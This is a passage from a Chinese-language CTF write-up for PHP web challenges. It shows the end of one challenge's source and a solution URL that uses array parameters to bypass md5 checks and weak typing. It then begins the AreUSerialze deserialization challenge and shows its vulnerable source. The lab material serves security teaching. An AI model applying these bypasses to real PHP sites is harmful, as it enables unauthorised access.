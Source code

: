 ```php

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first
```

md5 数组绕过和弱类型转换

```
http://f1edb72b-630a-48cf-bab2-ee13086b4ee5.node4.buuoj.cn:81/?gg[]=123&id[]=456

post: passwd=1234567a
```

![](assets/202208241813346-1700744514804287.png)

## [网鼎杯 2020 青龙组]AreUSerialze(反序列化，弱类型比较，php7对类属性的访问修饰符不敏感)

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

```